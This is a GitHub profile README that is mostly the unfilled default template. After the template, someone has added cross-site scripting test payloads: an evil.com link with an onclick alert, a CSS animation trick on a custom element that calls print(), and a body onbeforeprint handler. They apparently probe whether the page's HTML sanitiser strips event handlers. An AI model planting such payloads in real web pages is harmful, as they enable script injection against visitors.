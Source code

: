 - 👋 Hi, I’m @SIAM-T
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
SIAM-T/SIAM-T is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
<a href="https://evil.com" onclick=alert(8)>click</a>

<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="print()"></xss>
<body onbeforeprint=console.log(1)>
